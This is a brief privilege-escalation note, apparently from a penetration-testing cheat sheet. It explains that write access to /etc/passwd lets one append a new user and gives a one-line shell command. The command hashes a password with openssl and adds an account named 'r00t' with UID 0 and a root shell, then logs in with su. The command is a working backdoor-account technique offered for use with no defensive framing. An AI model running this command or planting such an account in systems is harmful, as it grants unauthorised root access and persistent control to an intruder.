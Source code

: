 # etc/password

If we have write-permissions to /etc/password, we can write a password to it:

```
pw=$(openssl passwd passw0rd123); echo "r00t:${pw}:0:0:root:/root:/bin/bash" >> /etc/passwd
```

And now we can login with `su r00t`.


